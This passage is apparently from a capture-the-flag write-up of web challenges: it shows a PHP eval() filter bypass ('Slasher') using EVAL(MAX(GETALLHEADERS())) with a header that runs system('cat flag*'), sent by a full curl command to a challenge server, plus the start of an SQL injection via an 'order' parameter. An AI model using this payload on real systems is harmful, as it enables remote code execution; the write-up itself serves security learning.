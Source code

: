 ```
python3 s.py
ENO{R4Ces_Ar3_3ver1Wher3_Y3ah!!}
```

## Slasher

We’re given a PHP snippet that takes user input, heavily escapes it, and `eval()` it:

```php
if(isset($_POST['input']) && is_scalar($_POST['input'])) {
    $input = $_POST['input'];
    $input = htmlentities($input, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
    $input = addslashes($input);
    $input = addcslashes($input, '+?<>&v=${}%*:.[]_-0123456789xb `;');
    try {
        $output = eval("$input;");
    } catch (Exception $e) {}
}
```

Observations:

- The app applies multiple filters:
  htmlentities(), addslashes(), addcslashes().

- Characters like ;, numbers, quotes, etc. are escaped.

- The sanitized `$input` is directly passed to `eval("$input;")`.

We can bypass input filtering using PHP constants and built-in functions: `GETALLHEADERS()` returns an associative array of HTTP headers. Wrapping it in `MAX()` fetches the lexicographically highest header value. If we set a header whose value is valid PHP code, `MAX()` will return it. `EVAL(MAX(GETALLHEADERS()))` will execute that value.

We send a crafted POST request:

```bash
curl -sS -X POST 'http://52.59.124.14:5011/' \             
  -H 'Z: ~0;system("cat flag*");die;' \
  --data 'input=EVAL(MAX(GETALLHEADERS()))'
<?php

$FLAG = "ENO{3v4L_0nC3_Ag41n_F0r_Th3_W1n_:-)}";

?>
```

Explanation: `Z: ~0;system("id");die;` is the header containing PHP code. `~0` is a harmless expression ensuring syntax correctness. `system("id")` runs a shell command. `die;` stops execution, `input=EVAL(MAX(GETALLHEADERS()))` evaluates `MAX(GETALLHEADERS())` execute PHP commands.

## dogfinder

We’re targeting a dog listing web app. parameters: `?name=&breed=&min_age=&max_age=&page=&order=`. The order parameter is injectable, response shows dogs sorted by name or breed, allowing us to see boolean conditions.
